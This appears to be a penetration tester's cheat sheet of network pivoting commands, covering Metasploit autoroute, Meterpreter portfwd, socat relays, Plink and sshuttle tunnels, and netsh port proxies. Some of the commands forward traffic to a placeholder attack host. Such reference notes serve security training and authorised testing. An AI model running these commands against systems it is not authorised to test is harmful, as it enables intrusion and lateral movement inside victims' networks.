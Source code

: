 | Command                                                                   | Description                                                                                                                                                                                              |
| ------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `msf6 > use post/multi/manage/autoroute`                                  | Metasploit command used to select the autoroute module.                                                                                                                                                  |
| `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>`        | Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target. |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>` | Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port `1234` listening on the IP address of the Attack Host.                             |

***

## **Socat Pivoting**

| Command                                                       | Description                                                                                                                               |
| ------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80` | Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80.   |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443`   | Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443. |

***

## **Windows PLink Pivoting**

| Command                                    | Description                                                                                                                                                                                                                                                             |
| ------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `plink -D 9050 ubuntu@<IPaddressofTarget>` | Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host. |

***

## **SSHuttle Pivoting**

| Command                                               | Description                                                                                                                                                         |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v` | Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network |

***

## Windows NetSh Pivoting

`netsh` is the native way to create a port forward on Windows.

Notice that `netsh` can only be run from `Administrator` users.

| Command                                                                                                                                  | Description                                                                                                |
| ---------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| `netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215`             | Listen on port on the 192.168.50.64 IP on port 2222 and forward packets to the 10.4.50.215  IP on port 22. |
| `netsh interface portproxy show all`                                                                                                     | Check estabilished port forwards                                                                           |
| `netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow` | Allow the previous port foward's traffic from the windows firewall                                         |
| `netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64`                                                       | Delete the previously created port forward                                                                 |
